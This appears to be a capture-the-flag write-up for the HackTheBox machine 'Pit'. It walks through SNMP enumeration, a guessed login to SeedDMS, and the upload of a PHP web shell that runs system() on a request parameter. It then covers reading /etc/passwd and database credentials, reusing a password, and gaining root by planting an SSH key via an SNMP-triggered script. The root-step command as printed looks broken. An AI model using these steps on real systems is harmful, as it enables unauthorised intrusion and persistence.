





Hello everybody. Here is a writeup of Pit that I made a while ago which I decided to upload here.

## Adding to /etc/hosts

I always like to add the ip to /etc/hosts, because then I don't have to remember the ip anymore.

To add the ip to /etc/hosts: 
Where BOXIP is the box ip
```sh
echo "BOXIP pit.htb" >> /etc/hosts
```

## Information Gathering

First lets check what ports are open with masscan. This command will check all open ports on both udp and tcp on the tun0 virtual adapter. Only downside is that it takes much time.

```
masscan pit.htb -p1-65535,U:1-65535 --rate=500 -e tun0
```


Then I ran a script-scan on the port from masscan
```
nmap -sCV -p 22,80,161,9090 -T4 pit.htb
```

Ports:
```
ports:
22 OpenSSH 8.0 protocol 2.0?
80 http nginx 1.14.1
161 filtered snmp
9090 cockpit? zeus-admin? ssl-cert dms-pit.htb
```

At port 80 there is an unconfigured nginx webserver.


At port 9090 there is some kind of CentOs login.


Nmap also showed that 9090 had a certificate with the name (dms-pit.htb) which I also added to my /etc/hosts.

http://dms-pit.htb returned a forbidden status code.



Since snmp was running on port 161, I tried taking it on a walk with snmpwalk ;)

```
snmpwalk -v2c -c public pit.htb nsExtendObjects
```

Which printed some data:
```
OS:Centos Linux release 8.3.2011

Labeling  MLS/      MLS/

SELinux User    Prefix    MCS Level  MCS Range                      SELinux Roles

guest_u        user      s0        s0                            guest_r
root            user      s0        s0-s0:c0.c1023                staff_r sysadm_r system_r unconfined_r
staff_u        user      s0        s0-s0:c0.c1023                staff_r sysadm_r unconfined_r
sysadm_u        user      s0        s0-s0:c0.c1023                sysadm_r
system_u        user      s0        s0-s0:c0.c1023                system_r unconfined_r
unconfined_u    user      s0        s0-s0:c0.c1023                system_r unconfined_r
user_u          user      s0        s0                            user_r
xguest_u        user      s0        s0                            xguest_r
login

Login Name          SELinux User        MLS/MCS Range        Service

__default__          unconfined_u        s0-s0:c0.c1023      *
michelle            user_u              s0                  *
root                unconfined_u        s0-s0:c0.c1023      *
```

Here we see a user named michelle and its that it's running Centos 8.3.2011.

To get some more information I ran this command:
```
snmpwalk -c public -v 2c pit.htb .1 > file.txt
```

After searching for a while, I saw a /var/www/html directory with seeddms (A free document management system):
```
.1.3.6.1.4.1.2021.9.1.2.2 = STRING: /var/www/html/seeddms51x/seeddms
.1.3.6.1.4.1.2021.9.1.3.1 = STRING: /dev/mapper/cl-root
.1.3.6.1.4.1.2021.9.1.3.2 = STRING: /dev/mapper/cl-seeddms
```

/var/www/html/x is often the root of websites, so I tried visiting http://pit.htb/seeddms51x/seeddms but got a 404.

http://dms-pit.htb/seeddms51x/seeddms didn't return a 404, here is a login panel.



Here is a login page there we can input a User ID, a password and a language. I put michelle as User ID (since I found a user called it in the snmpwalk) then tried some basic passwords.
After a while I tried "michelle" as a password and it worked and I'm in :)

By digging arround on the website for a bit I found this from `/Docs/Users`.\
Here it seems like I can upload files.

http://dms-pit.htb/seeddms51x/seeddms/out/out.ViewFolder.php?folderid=8&showtree=1

I created a file named 1.php with this content (from [exploit-db](https://www.exploit-db.com/exploits/47022)) and uploaded it with the "Add Document button"
```php
<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}

?>
```

```yml
Name: 1.php
Preset expiration: Does not expire
Local file: (the php file created)
Everything else blank
```

Files in SeedDms are stored in http://dms-pit.htb/seeddms51x/data/1048576/documentid/filename.someextension

The documentId can be found by rightclicking the download button of the uploaded document `?documentid=31` 

Now the file is uploaded and commands can be executed with the cmd parameter http://dms-pit.htb/seeddms51x/data/1048576/31/1.php?cmd=cat+/etc/passwd



I tried to get a reverse shell but it didn't work so I navigated around the system and found `../../../conf/` which contains a `settings.xml` file.

```
http://dms-pit.htb/seeddms51x/data/1048576/31/1.php?cmd=cat ../../../conf/settings.xml
```

The webpage will show a white page. This is because the browser is trying to parse the xml as html. To view the xml go into the `View Page Source` tab.

```xml
<database dbDriver="mysql" dbHostname="localhost" dbDatabase="seeddms" dbUser="seeddms" dbPass="********" doNotCheckVersion="false">
```

Here is a databse user and a database password.

I could not really access the database from sql cli since its localhost only. I also tried to ssh into michelle with the db password, but no success.
```
ssh michelle@pit.htb
```

Then i decided to try the dbpassword on the pit.htb:9090 login page with `michelle` as username and the db password as password. It worked.

Here is some kinda admin dashboard. On the left there is a Terminal button. I pressed it and now I got user.

```
[michelle@pit ~]$ ls
user.txt
```

## Root
I started by checking the output of snmp again `snmpwalk -c public -v 2c boxip .1 > file.txt` 

I digged arround for some time and found something interesting. `NET-SNMP-EXTEND-MIB`, which is a extension that allows running scripts triggered by snmp. 

```
NET-SNMP-EXTEND-MIB::nsExtendCommand."monitoring" = STRING: /usr/bin/monitor
```

I checked who could execute the `/usr/bin/monitor` in the michelle terminal. And turns out its only the owner, which is root.
```
[michelle@pit /]$ ls -l /usr/bin/monitor
	-rwxr--r-- 1 root root 88 Apr 18 2020 /usr/bin/monitor
```

This is the content of `/usr/bin/monitor`.
It is basically a script that executes all .sh scripts starting with `check` inside `/usr/local/monitoring`
```bash
for script in /usr/local/monitoring/check*sh
do
    /bin/bash $script
done
```

I ran "ls -ld /usr/local/monitoring" 
```
drwxrwx---+ 2 root root 122 May 14 14:40 /usr/local/monitoring
```
There is a `+`at the end of the permissions, which means michelle has additional ACLs set [(See here)](https://unix.stackexchange.com/a/92072).

I ran `getfacl /usr/local/monitoring/` to get more about it, and saw that michelle has read and execute permissions.
```
[michelle@pit /]$ getfacl /usr/local/monitoring
getfacl: Removing leading '/' from absolute path names
# file: usr/local/monitoring
# owner: root
# group: root
user::rwx
user:michelle:-wx
group::rwx mask::rwx
other::---
```

### Shell
This script will write my public ssh key to `/root/.ssh/authorized_keys` and will allow me to ssh into root. 
```
[michelle@pit monitoring]$ echo 'echo "your-public-ssh-key username@hostname"' > check.sh
```

To trigger the script
```
snmpwalk -m +MY-MIB -v2c -c public pit.htb nsExtendObjects
```

```
ssh root@pit.htb

[root@pit ~]# ls
root.txt
```


